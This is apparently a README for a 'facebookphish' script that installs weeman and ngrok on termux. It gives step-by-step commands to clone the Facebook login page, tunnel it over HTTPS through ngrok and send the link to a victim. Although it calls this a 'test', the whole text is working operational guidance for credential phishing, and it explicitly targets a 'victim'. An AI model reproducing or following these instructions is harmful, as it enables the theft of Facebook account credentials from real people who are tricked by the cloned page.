 # facebookphish
Download tools and updates needed for a test of phishing Facebook accounts
All this can be done on termux
This python script download apt, python2, wget, git, ngrok, weeman

You need to have already installed python3 for make this work.

After everything is finished you need 2 sessions on termux

1. first session you need to go to weeman dir (cd weeman/) and type python2 weeman.py. Now type show to see instructions.

2. In the second session type ngrok http -bind-tls=true 8080 (choose your own port) and enter for start. (bind-tls is for https page) Now, ngrok give an url like xxxx.ngrok.io, copy that and paste in the session 1 for weeman. First type set url https://facebook.com and after that type the command set action_url here goes your ngrok url. And the last one, type set port and type the port you choose for ngrok before (8080 in my example). And thats all, now you will have working that server on your own pc and now just send that url to the victim.
